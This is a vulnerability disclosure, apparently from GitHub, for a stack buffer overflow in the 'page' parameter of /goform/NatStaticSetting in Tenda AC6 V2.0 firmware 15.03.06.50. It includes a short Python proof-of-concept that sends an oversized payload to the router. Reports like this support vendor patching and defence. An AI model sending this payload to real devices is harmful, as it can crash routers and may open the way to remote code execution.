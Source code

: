 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 V2.0 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/NatStaticSetting`. When `page` is specified with excessive data, the buffer overflow occurs during `sprintf`.

![alt text](image.png)
## poc
![alt text](image-1.png)
![alt text](image-2.png)

## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'page': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x100 * b'A' + b'DOIT'
send_payload("http://10.10.10.1/goform/NatStaticSetting", payload)
```
